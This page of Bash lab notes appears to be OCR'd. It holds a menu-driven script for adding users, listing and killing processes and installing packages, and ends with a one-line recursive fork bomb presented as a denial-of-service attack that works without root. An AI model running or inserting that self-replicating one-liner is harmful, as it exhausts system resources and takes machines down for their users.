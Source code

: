 - - -
Lab: System Administration Script using Menus

PS3="Your choice:"
select ITEM in "Add User" "List All Processes" "Kill Process" "Install Program" "Quit"
do
	if [[ $REPLY -eq 1 ]]; then
		read -p "Enter the username: " username
		output=`grep -w $username /etc/passwd`
		if [[ -n "$output" ]]; then
			echo "The user already exists"
		else
			sudo useradd -m "$username"
			if [[ $? -eq 0 ]];then
				echo "The user has been created successfully"
			else
				echo "There is an error while creating a user"
			fi
		fi
	fi

	if [[ $REPLY -eq 2 ]]; then
		echo "Listing all processes ..."
		sleep 1	
		ps -ef
	fi

	if [[ $REPLY -eq 3 ]]; then
		read -p "What is the process id to kill? " pid
		kill $pid
	fi

	if [[ $REPLY -eq 4 ]]; then
		read -p "What program to install? " programinstall
		sudo apt install "$programinstall"
		if [[ $? -ne 0 ]]; then
			echo "Error"
		else
			echo "The program is being installed ..."
		fi 
	fi
	
	if [[ $REPLY -eq 5 ]]; then
		echo "Quitting ..."
		sleep 1
		break	
	fi
done

- - - - - -
#Running a DoS Attack Without Root Access

$0 && $0 &

This command performs a DoS(Denial of Service) attack that makes use of the fork system call to create an infinite number of processes.So the script will execute itself recursively in the background.
